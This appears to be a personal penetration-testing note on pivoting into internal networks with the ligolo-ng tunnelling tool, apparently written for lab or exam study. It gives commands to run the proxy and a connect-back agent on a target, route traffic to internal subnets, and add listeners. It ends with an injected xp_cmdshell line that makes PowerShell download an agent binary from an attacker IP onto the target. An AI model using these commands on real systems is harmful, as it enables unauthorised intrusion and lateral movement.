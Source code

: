 Make sure ligolo interface is created:
```c
sudo ip tuntap add user [your_username] mode tun ligolo
sudo ip link set ligolo up
```
start ligolo on kali:
```c
./proxy -selfcert
```

start agent on target:
```c
#default port is 11601
.\agent -ignore-cert -connect <kali_ip>:<port>
```

interact with session and start it:
```c
session
1
start
```

Now create route to internal boxes thru ligolo interface
```c
ip route add 172.17.10.0/24 dev ligolo
```

### [Agent Binding/Listening](https://github.com/nicocha30/ligolo-ng#agent-bindinglistening)

You can listen to ports on the _agent_ and _redirect_ connections to your control/proxy server.

In a ligolo session, use the `listener_add` command.

The following example will create a TCP listening socket on the agent (0.0.0.0:1234) and redirect connections to the 4321 port of the proxy server.

```c
[Agent : nchatelain@nworkstation] » listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4321 --tcp
INFO[1208] Listener created on remote agent!           
```

## this is good example...
![[Pasted image 20231128005211.png]]

'EXEC xp_cmdshell "powershell.exe wget http://192.168.45.225:8000/agent.exe -OutFile c:\Users\Public\agent.exe" --


![[Pasted image 20230824171226.png]]